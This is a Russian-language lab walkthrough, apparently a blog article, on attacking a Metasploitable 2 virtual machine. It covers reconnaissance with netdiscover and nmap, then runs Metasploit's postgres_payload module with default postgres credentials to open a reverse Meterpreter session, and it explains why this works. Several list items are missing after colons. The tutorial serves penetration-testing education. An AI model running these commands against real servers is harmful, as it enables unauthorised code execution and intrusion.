


Предполагается что все действия выполняются на виртуальных машинах VirtualBox.
Сначала необходимо обновить metasploit, так как необходимый payload не стабильно работает на текущей версии. Что бы обновить metasploit в терминале Kali Linux необходимо дать команду:
sudo apt update sudo apt install metasploit-framework
Необходимо определить IP с машиной Metasploitable 2. Для этого сначала определим наш IP и маску подсети, для этого дадим команду в терминале Kali:
ifconfig
В результатах вывода команды выше, можно увидеть такую строку:
inet 10.0.2.4 netmask 255.255.255.0
То есть наш IP 10.0.2.4 а диапазон IP адресов нашей сети 10.0.2.0/24 (это обяснялось ранее в предыдущих статьях).
Для обнаружения других компьютеров в сети и в том числе нашей удаленной машины Metasploitable 2, дадим команду в терминале Kali:
sudo netdiscover -r 10.0.2.0/24
В выводе команды:
10.0.2.2 08:00:27:3a:17:ed 1 60 PCS Systemtechnik GmbH 10.0.2.3 08:00:27:f1:18:5a 1 60 PCS Systemtechnik GmbH
10.0.2.2 - это виртуальный роутер, который управляет нашей сетью.
10.0.2.3 - это наша машина (по логике) с Metasploitable 2.
Проверим связь между нашей Kali и удаленной ВМ Metasploitable 2, дадим команду:
ping 10.0.2.3
Если сеть в VirtualBox настроена правильно, видим пинг идет, связь есть.
На Kali выполняем команду в терминале:
nmap -sC -sV 10.0.2.3
В выводе nmap находим такую строку (сриншот ниже):
5432/tcp open postgresql PostgreSQL DB 8.3.0 - 8.3.7

Теперь на Kali в терминале даем команду запуска метасплоит:
msfconsole
Далее даем команду
msf > search postgres
msf > use exploit/linux/postgres/postgres_payload
msf exploit(postgres_payload) > set RHOST 10.0.2.3
msf exploit(postgres_payload) > set LHOST 10.0.2.4
msf exploit(postgres_payload) > exploit
Теперь запустилась сессия meterpreter и мы внутри Metasploitable 2.

Так же для поиска модулей можно дать команду искать только эксплоиты:
msf > search type:exploit postgres
И после вывода search следующая команда посмотреть информацию по эксплоиту по номеру в списке, не вводя полное имя и путь к эксплоиту:
msf > info 21
Или команда тткроет более подробную документацию в браузере:
msf > info -d 21
Что значит в выводе nmap
5432/tcp open postgresql PostgreSQL DB 8.3.0 - 8.3.7
Строка
5432/tcp open postgresql PostgreSQL DB 8.3.0 - 8.3.7
состоит из нескольких частей.
Часть Что означает 5432/tcp На порту 5432 по протоколу TCP работает какой-то сервис. Это стандартный порт PostgreSQL. open Порт открыт и принимает подключения. postgresql Nmap определил, что это сервер PostgreSQL. PostgreSQL DB 8.3.0 - 8.3.7 Nmap предполагает, что версия сервера находится в диапазоне от 8.3.0 до 8.3.7.
PostgreSQL — это система управления базами данных (СУБД), то есть программа, которая хранит и обрабатывает базы данных.
Иногда по ответу nmap невозможно определить одну конкретную версию, поэтому Nmap пишет диапазон.
То есть:
PostgreSQL DB 8.3.0 - 8.3.7
означает:
«По имеющимся признакам это PostgreSQL версии не ниже 8.3.0 и не выше 8.3.7.»
Это не означает, что одновременно установлены все эти версии.
Если выполнить команду метасплоит show options можно увидеть что в настройках указано database = postgres, username = postgres, password = postgres.
msf exploit(linux/postgres/postgres_payload) > show options
Таким образом модуль:
exploit/linux/postgres/postgres_payload
предназначен для эксплуатации PostgreSQL, если у атакующего уже есть возможность войти в базу данных (обычно известны логин и пароль).
Модуль не взламывает пароль, а использует существующий доступ к PostgreSQL для выполнения команд на сервере.
Командой:
msf exploit(postgres_payload) > exploit
Запускается эксплуатация.
Metasploit делает примерно следующее:
Почему PostgreSQL вообще может выполнять программы?
PostgreSQL имеет встроенные функции для работы с операционной системой.
Например, можно создавать функции на языке C, загружать библиотеки, запускать некоторые внешние процессы и использовать расширения.
Если пользователь PostgreSQL обладает достаточно высокими привилегиями (например, является суперпользователем базы), это может привести к выполнению кода на уровне операционной системы.
Именно этим и пользуется модуль.
Почему это работает на Metasploitable 2?
Metasploitable 2 специально настроена как уязвимая лабораторная машина.
Обычно:
В реальной системе такое встречается значительно реже.
Что такое Meterpreter?
Meterpreter — это специальная интерактивная оболочка Metasploit.
После успешной эксплуатации вместо обычного shell вы получаете более мощный инструмент.
Например, можно:
В нашем примере предполагается, что перед запуском этого модуля уже были получены учетные данные PostgreSQL (например, логин postgres и простой пароль вроде postgres или password). Сам модуль exploit/linux/postgres/postgres_payload не подбирает пароль и не использует уязвимость в протоколе PostgreSQL — он использует уже имеющийся привилегированный доступ к базе для выполнения кода на сервере. Именно поэтому он работает на учебной машине Metasploitable 2, где намеренно оставлены небезопасные настройки.
То есть сам модуль postgres_payload не подбирает пароль и не ломает защиту PostgreSQL. Он использует уже имеющийся доступ и особенности или небезопасную конфигурацию сервера для выполнения кода.
Почему именно postgres_payload?
Потому что разведка nmap показала:
5432/tcp open postgresql
Затем выяснилось (или было известно заранее), что:
есть доступ к PostgreSQL;
пользователь обладает необходимыми правами.
Модуль postgres_payload как раз предназначен для выполнения кода через PostgreSQL при наличии такого доступа.
То есть выбор postgres_payload основан не на угадывании, а на информации, полученной в ходе разведки, и на изучении доступных модулей Metasploit.
Мы подключаемся к PostgreSQL с привилегированной учетной записью, используем возможности PostgreSQL для запуска кода на уровне операционной системы, и этот код устанавливает обратное соединение с атакующей машиной, в результате чего получаем сессию Meterpreter.
Именно поэтому после успешной эксплуатации Meterpreter получает права того пользователя Linux, от имени которого работает процесс PostgreSQL (часто это пользователь postgres).